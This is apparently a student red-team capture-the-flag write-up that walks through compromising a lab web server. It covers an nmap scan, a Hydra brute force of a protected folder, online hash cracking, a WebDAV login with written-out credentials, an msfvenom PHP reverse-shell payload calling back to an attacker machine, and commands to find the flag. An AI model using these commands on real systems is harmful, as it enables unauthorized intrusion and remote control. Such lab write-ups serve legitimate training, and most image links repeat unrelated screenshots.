 ﻿##Red Team 

###Step 1: Discovering the IP address of the linux server.

In order to find the ip address of the machine, we will need to use a network mapping tool called Nmap to scan the network. 

- Open the terminal and run: nmap 192.168.1.0/24 (We used this ip cidr range bcause our attack machine belongs to this subnetwork.)

![alt text](https://github.com/cyberprotocols/cyberpro_inc/blob/main/Diagrams/Virtual_Network_Map.JPG)

From the Nmap scan we can see that port 80 is open. Next we opened a web browser and typed the IP address of the machine into the address bar.

-Open web browser and navigate to 192.168.1.105 and press enter. 
![alt text](https://github.com/cyberprotocols/cyberpro_inc/blob/main/Diagrams/Virtual_Network_Map.JPG)



###Step 2: Locating the hidden directory on the server.

- We navigated through different directories, we noticed reocurring messages:

![alt text](https://github.com/cyberprotocols/cyberpro_inc/blob/main/Diagrams/Virtual_Network_Map.JPG)

- Upon such discovery we navigated to the directory by typing: 192.168.1.105/company_folders/secret_folder

- The directory asked us for authentication in order to access it. Reading the authentication method, it says "For ashton's eyes only"

![alt text](https://github.com/cyberprotocols/cyberpro_inc/blob/main/Diagrams/Virtual_Network_Map.JPG)

- We then went back to the web browser and use the credential to log in. We clicked the file connecting_to_webdav

![alt text](https://github.com/cyberprotocols/cyberpro_inc/blob/main/Diagrams/Virtual_Network_Map.JPG)


### Step 3: Brute force the password for the hidden directory.

Because the folder is password protected, we need to either guess the password or brute force into the directory. In this case, it would be much more efficient
to use a brute force attack, specifically Hydra. 

- Using Ashton's name, run the Hydra attack against the directory: 

   - type: hydra -l ashton -P /usr/share/wordlists/rockyou.txt -s 80 -f -vV 192.168.1.105 http-get /company_folders/secret_folder

![alt text](https://github.com/cyberprotocols/cyberpro_inc/blob/main/Diagrams/Virtual_Network_Map.JPG)

- The brute force attack may take some time. Once it finished, the username is ashton and the password is leopoldo.

![alt text](https://github.com/cyberprotocols/cyberpro_inc/blob/main/Diagrams/Virtual_Network_Map.JPG)

-We went back to the web browser and used the credentiial to log in. We open the file connecting_to_webdav file.  

![alt text](https://github.com/cyberprotocols/cyberpro_inc/blob/main/Diagrams/Virtual_Network_Map.JPG)

- Located inside of the WebDAV file are instructions on how to connect to the WebDAV directory, as well the user's username and hashed password.

![alt text](https://github.com/cyberprotocols/cyberpro_inc/blob/main/Diagrams/Virtual_Network_Map.JPG)


### Step 4: Connect to the server via Webdav 

There are several ways to break the password hash. But in this intanse we avoided waiting for john to crack the password hash, we used https://crackstation.net
paste the password hash and filled out the CAPTCHA; and clicked Crack Hashes. 

![alt text](https://github.com/cyberprotocols/cyberpro_inc/blob/main/Ansible/docker_ps_screenshot.png)

- The password is revealed as: linux4u

### Step 5: Connecting to the server via WebDAV.

- We gained important information to make the WebDAV connection on our local attack machine. We used that information by:
	
	- We opened the file system shortcut from the desktop.
	
	- Clicked on Browse Network.

	- In the URL bar, typed: dav://192.168.1.105/webdav, and entered the credentials to log in.

![alt text](https://github.com/cyberprotocols/cyberpro_inc/blob/main/Ansible/docker_ps_screenshot.png)


### Step 6: Creating and Uploading a PHP reverse shell payload.

- To set up the reverse shell, run:
	- msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.1.90 lport=4444 >> shell.php

- The series of command above does the following :

	- msfconsole to launch msfconsole.

	- use exploit/multi/handler
	
	- set payload php/meterpreter/reverse_tcp

	- show options and point out they need to set the LHOST

	- set LHOST 192.168.1.90(Attacker Machine)

	- exploit  

- Placed the reverse shell onto the webDAV directory

- We logged back in, visited the webdav folder by navigating to 192.168.1.105/webdav. Used the credentials obtained before, user:ryan pass:linux4u

- I visited where i uploaded the reverse shell and clicked it to activate it. (If it seems like tge browser is hanging or loading, that means it has worked.)

![alt text](https://github.com/cyberprotocols/cyberpro_inc/blob/main/Ansible/docker_ps_screenshot.png)

### Step 7: Find and capture the flag. 

- on the listener, we are going to search for the file flag.txt located in the root directory. To do such i did the following:

	- Dropped a bash shell with the command: shell

	- Changed directory to the / directory: cd /

	- Searched the system for any files containing the phrase "flag" : find . -iname flag.txt

- Printed the file once i located it by: cat flag.txt

![alt text](https://github.com/cyberprotocols/cyberpro_inc/blob/main/Ansible/docker_ps_screenshot.png)

![alt text](https://github.com/cyberprotocols/cyberpro_inc/blob/main/Ansible/docker_ps_screenshot.png)


